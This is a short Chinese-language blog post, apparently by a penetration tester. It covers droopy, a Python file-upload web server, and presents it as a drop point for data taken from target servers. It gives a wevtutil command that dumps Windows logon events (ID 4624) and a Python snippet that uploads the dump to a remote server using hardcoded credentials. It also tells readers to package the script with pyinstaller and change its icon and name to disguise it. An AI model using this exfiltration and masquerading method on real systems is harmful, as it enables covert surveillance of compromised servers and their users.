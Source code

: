 ```yaml
---
title: droopy
description: droopy
categories:
 - tools
 - python
tags: 
 - python
---
```


python写的一个文件上传功能的Web服务器

[源码](http://stackp.online.fr/wp-content/uploads/droopy)

![1594886013](C:/Users/secxun/Desktop/0731/image/1594886013.jpg)

我们用到的参数有-d指定上传路径、-a指定访问401验证账号密码

![1594888077](C:/Users/secxun/Desktop/0731/image/1594888077.jpg)

![1594888031](C:/Users/secxun/Desktop/0731/image/1594888031.jpg)

#### 一、思路

遇到什么大project的时候，经常被要求要获取服务器的3389登录ip，但有时需要的是长时间监控服务器才能获取最新的登录ip，所以这时候就靠自动化

获取本地登录事件并保存到文本->通过droopy上传到服务器->后续可以加短信、邮件或wechat推送通知

和ftp的区别在于，ftp的账号密码是写在文件里的，对面拿到exe可以逆向拿到你ftp的账号密码，登录上去看到你服务器上的文件，而droopy即使拿到了401账号密码进去后也只有一个上传功能，虽説不能保证后面会不会爆什么安全漏洞但目前来説还没有问题。

#### 二、wevtutil获取登录事件

获取事件ID4624并保存到logins.txt里，4624为登录成功日志，多事件ID可用or分隔

```
wevtutil qe Security "/q:*[System [(EventID=4624)]]" /rd:true /f:text > "logins.txt"
```

#### 三、python

```python
class myupload():
    def __init__(self,url):
        self.url = url

    def upload(self,upload_file):
        files = {'upfile':(upload_file.split(sep)[-1],open(upload_file,'rb'),'text/plain',{})}
        request('POST',self.url,data=None,files=files,auth=('thomas','thomastom'))
```

#### 四、效果

![1594889003](C:/Users/secxun/Desktop/0731/image/1594889003.jpg)

![1594889124](C:/Users/secxun/Desktop/0731/image/1594889124.jpg)

#### 五、其他

将写好的.py用pyinstaller打包，打包的时候可以-i加个icon图标，再把名改改伪造伪造。

py打包exe体积太大可以通过虚拟环境内打包解决

```python
#建立虚拟环境
pipenv install
#进入虚拟环境
pipenv shell
#安装模块
pip install 小工具.py里面用到的模块
#打包的模块也要安装
pip install pyinstaller
#开始打包
pyinstaller -Fw E:\test\url_crawler.py
```

